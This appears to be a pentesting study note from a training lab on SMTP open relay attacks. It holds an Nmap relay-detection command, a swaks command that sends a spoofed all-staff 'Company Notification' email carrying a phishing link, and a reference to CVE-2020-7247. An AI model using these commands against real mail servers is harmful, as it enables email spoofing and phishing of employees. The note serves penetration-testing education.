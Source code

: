 #### Open Relay Attack - Identification with Nmap
```Shell
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```

#### Use any mail client to connect to the mail server and send our email
```Shell
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```

### Latest Vulns

[CVE-2020-7247](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7247)

#### Shodan Search
![[Pasted image 20230309111552.png]]
